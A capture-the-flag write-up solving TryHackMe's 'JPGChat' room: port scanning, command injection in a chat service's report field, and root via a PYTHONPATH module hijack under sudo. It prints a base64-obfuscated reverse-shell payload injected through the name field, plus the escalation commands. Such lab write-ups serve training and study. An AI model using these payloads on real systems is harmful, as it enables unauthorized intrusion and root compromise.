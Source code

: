 ```yaml
---
title: "JPGChat"
date: 2025-03-12
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF JPGChat
categories: [TryHackMe, Easy]
tags: [linux, python]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>JPGChat</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Exploiting poorly made custom chatting service written in a certain language...</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/jpgchat">https://tryhackme.com/room/jpgchat</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge JPGChat.

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.77.133
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 04:51 EDT
  Nmap scan report for 10.10.77.133
  Host is up (0.045s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  22/tcp   open  ssh
  3000/tcp open  ppp
  
  Nmap done: 1 IP address (1 host up) scanned in 29.32 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,3000 10.10.77.133
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 04:52 EDT
  Nmap scan report for 10.10.77.133
  Host is up (0.038s latency).
  
  PORT     STATE SERVICE    VERSION
  22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 fe:cc:3e:20:3f:a2:f8:09:6f:2c:a3:af:fa:32:9c:94 (RSA)
  |   256 e8:18:0c:ad:d0:63:5f:9d:bd:b7:84:b8:ab:7e:d1:97 (ECDSA)
  |_  256 82:1d:6b:ab:2d:04:d5:0b:7a:9b:ee:f4:64:b5:7f:64 (ED25519)
  3000/tcp open  tcpwrapped
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 5.49 seconds
```
From here I proceeded the analysis by port 3000.

## Port 3000 Analysis

```bash
$ nc 10.10.77.133 3000           
  Welcome to JPChat
  the source code of this service can be found at our admin's github
  MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
  REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

A quick search revealed the <a href="https://github.com/Mozzie-jpg/JPChat">GitHub</a> repository, along with the source code. The most important part is the report functionality. In that section, I had control over a variable that is included in a command. The command is then executed by Bash. Before testing on the server, I created a small proof of concept:
```python
import os
report_text = test;whoami; echo test"
os.system("bash -c 'echo %s >> /home/kali/Desktop/report.txt'" % report_text)
```
The payload worked, and I got the output as expected:
```bash
$ python3 test.py
  test
	kali
```

Using the `;` I was able to expand the logic and break out. Since I was able to execute arbitrary commands on the system, I managed to gain a reverse shell using the predefined Penelope payloads:
```bash
$ nc 10.10.77.133 3000
  Welcome to JPChat
  the source code of this service can be found at our admin's github
  MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
  REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
  [REPORT]
  this report will be read by Mozzie-jpg
  your name:
  test;echo -n c2V0c2lkIGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvOTAwMSAwPiYxICYK|base64 -d|bash; echo test
  your report:
  test
```

With this initial access, I was able to successfully retrieve the user flag:
```bash
wes@ubuntu-xenial:~$ cd /home/wes
wes@ubuntu-xenial:~$ cat user.txt
	JPC{[remove]}
```

## Privilege Escalation vagrant

I continued by running `sudo -l` and received the following output:
```bash
wes@ubuntu-xenial:~$ sudo -l
  Matching Defaults entries for wes on ubuntu-xenial:
      mail_badpass, env_keep+=PYTHONPATH
  
  User wes may run the following commands on ubuntu-xenial:
      (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

The script that is executed with root privileges imports `compare`. Furthermore, the `PYTHONPATH` environment variable wasn't set, allowing me to manipulate the location where Python looks for imports:
```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

For an initial proof of concept, I searched for a directory where I had write permissions and set the `PYTHONPATH` to that location:
```bash
wes@ubuntu-xenial:~$ find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
  [...]
  /home/wes
  [...]
wes@ubuntu-xenial:~$ export PYTHONPATH=/home/wes
```

I created a script called `compare.py`, added a print statement, and made it executable. When I ran `test_module.py` with sudo, my own `compare.py` was executed:
```bash
wes@ubuntu-xenial:~$ echo "print(1)" > compare.py
wes@ubuntu-xenial:~$ chmod +x compare.py 
wes@ubuntu-xenial:~$ sudo /usr/bin/python3 /opt/development/test_module.py
  1
  Traceback (most recent call last):
    File "/opt/development/test_module.py", line 5, in <module>
      print(compare.Str('hello', 'hello', 'hello'))
  NameError: name 'compare' is not defined
```

Great! Since I aimed to gain root privileges, I modified `compare.py` to spawn a Bash shell. After running the main script again, I was able to retrieve the root flag:
```bash
wes@ubuntu-xenial:~$ echo "import pty;pty.spawn('bash')" > compare.py
wes@ubuntu-xenial:~$ sudo /usr/bin/python3 /opt/development/test_module.py
root@ubuntu-xenial:~# whoami
  root
root@ubuntu-xenial:~# cat /root/root.txt 
  JPC{[remove]}
  
  Also huge shoutout to Westar for the OSINT idea
  i wouldn't have used it if it wasnt for him.
  and also thank you to Wes and Optional for all the help while developing
  
  You can find some of their work here:
  https://github.com/WesVleuten
  https://github.com/optionalCTF
```

solved! :)
